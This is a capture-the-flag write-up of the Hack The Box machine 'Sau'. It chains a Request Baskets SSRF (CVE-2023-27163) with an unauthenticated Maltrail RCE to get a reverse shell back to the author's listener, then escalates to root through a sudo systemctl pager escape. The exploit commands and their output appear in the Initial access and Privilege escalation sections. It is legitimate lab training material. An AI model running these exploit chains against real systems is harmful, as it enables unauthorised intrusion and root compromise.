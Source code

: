 ```yaml
---
layout: post
title: Sau
date: 2023-10-16 10:14:00-0400
description: Sau - Hack The Box write-up
tags: easy-box htb ssrf rce
categories: HTB-Machines
thumbnail: /assets/img/2023-sau/Sau.png
giscus_comments: false
related_posts: false
toc:
  beginning: true
featured: false
---
```


# Introduction

Sau is an Easy machine on Hack The Box that focuses on exploiting two vulnerabilities to ultimately obtain initial access. Privilege escalation is then achieved by exploiting a legitimate binary.

# Enumeration
Nmap reveals three ports:
- 22
- 80
- 55555

```shell
 nmap -sV -sC -T4 10.129.82.3 -oA nmap-sau
 
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 15 Oct 2023 04:01:09 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 15 Oct 2023 04:00:37 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 15 Oct 2023 04:00:38 GMT
|_    Content-Length: 0
<SNIP>
```

SSH is a dead end and port 80 is filtered, but browsing to `http://10.129.82.3:55555` lands on a site titled **Request Baskets**.

## What's Request Baskets?
Request Baskets is a concept, often implemented as a tool or a service, used to capture, inspect, and debug HTTP requests. It provides a temporary "basket" or "bucket" that captures incoming HTTP requests for analysis. This is particularly useful for debugging webhooks, HTTP clients, or other services that send HTTP requests.

An implementation usually works like this:

1. **Create** a new Request Basket, which provides a unique URL endpoint.
2. **Configure** the application, webhook, or service to send HTTP requests to the URL.
3. **Inspect** the incoming HTTP requests to the basket
4. Use the captured information,  to **test or debug issues**, validate payloads, or run other types of tests.

We can see that this particular implementation is on version 1.2.1, which is vulnerable to <a href="https://nvd.nist.gov/vuln/detail/CVE-2023-27163"> *CVE-2023–27163 - a Server-Side Request Forgery (SSRF)*</a>

## What's SSRF?
SSRF, or Server-Side Request Forgery, is a security vulnerability that allows an attacker to make requests to internal resources within an organization's network, effectively bypassing firewalls. In SSRF attacks, ***the attacker manipulates a vulnerable web application to make requests to an internal resource,*** which could be anything from cloud services to databases or even restricted parts of the web application itself.

The attack often occurs when a web application doesn't properly validate or sanitise user input for URLs. An attacker can then trick the server into making an unauthorised request to internal resources, potentially revealing sensitive information or even executing commands.

It's particularly concerning in cloud environments, where metadata APIs can expose sensitive data that can lead to more severe attacks like privilege escalation.

Prevention often involves input validation, restricting outbound requests from the server, or implementing allow lists for permissible URLs.

# Attack vector
Given port 80 is filtered but  there is an implementation of Request Baskets on port 55555 that is vulnerable to SSRF, this appears to provide a way to forward requests to the service running on port 80. A PoC of the SSRF vulnerability on Request-Baskets can be found [here](https://github.com/entr0pie/CVE-2023-27163).

## Testing
Creating a new basket in the web app and then configuring port 80 as the forward URL on a local interface can confirm this.

Hovering over the `Proxy Response` option, we can see it will *Proxy the response from the forward url back to the client*.

Checking this option will return the response from `http://localhost:80`.

<img src="/assets/img/2023-sau/20231016-sau-2.png" class="auto-resize">

Triggering a request by browsing to `http://10.129.82.3:55555/wnnyr21` returns a seemingly malformed web app called **Maltrail**.
<img src="/assets/img/2023-sau/20231016-sau-5.png" class="auto-resize">

The app is running version 0.53 which is vulnerable to a **Remote Code Execution.**

```shell
┌──(kali㉿kali)-[~]
└─$ searchsploit maltrail
----------------------------------------------------- ---------------------------------
 Exploit Title                                       |  Path
----------------------------------------------------- ---------------------------------
Maltrail v0.53 - Unauthenticated Remote Code Executi | python/webapps/51676.py
```

# Initial access
Using the first exploit, a basket can be created that, when accessed, will make a request to `http://localhost:80`, as tested manually.

```shell
┌──(kali㉿kali)-[~/Documents/HTB-Machines/sau/exploits]
└─$ ./CVE-2023-27163.sh http://10.129.82.3:55555/ http://localhost:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "ndapra" proxy basket...
> Basket created!
> Accessing http://10.129.82.3:55555/ndapra now makes the server request to http://localhost:80.
./CVE-2023-27163.sh: line 43: jq: command not found
> Response body (Authorization): {"token":"uQW06XHLrVKiZsq2XbeXRbrb6PRlQ53tTAVeaA-Puolb"}
```

This basket can then be used to proxy the second exploit to the vulnerable implementation of Maltrail.

```shell
┌──(kali㉿kali)-[~/Documents/HTB-Machines/sau/exploits]
└─$ python3 51676.py 10.10.14.12 4321  http://10.129.82.3:55555/ndapra
Running exploit on http://10.129.82.3:55555/ndapra/login
```

The payload is executed on the Maltrail instance running on port 80, and a reverse shell is sucessfully caught on the listener.

<img src="/assets/img/2023-sau/20231016-sau-3.png" class="auto-resize">

# Privilege escalation
Privilege escalation is reasonably straight forward.

Checking what the user can run as sudo returns one binary: 
`/usr/bin/systemctl status trail.service`

```shell
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

[GTFOBIns](https://gtfobins.github.io/gtfobins/systemctl/) says the following about `systemctl` ran as sudo:

> *If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor.*


Running the binary seems to drop into a new terminal session:
```shell
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)
```

Attempting to execute a new shell from this terminal will spawn it under sudo:
```shell
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/sh
!//bbiinn//sshh!/bin/sh
# whoami
whoami
root
```

<img src="/assets/img/2023-sau/20231016-sau-4.png" class="auto-resize">


Done and dusted!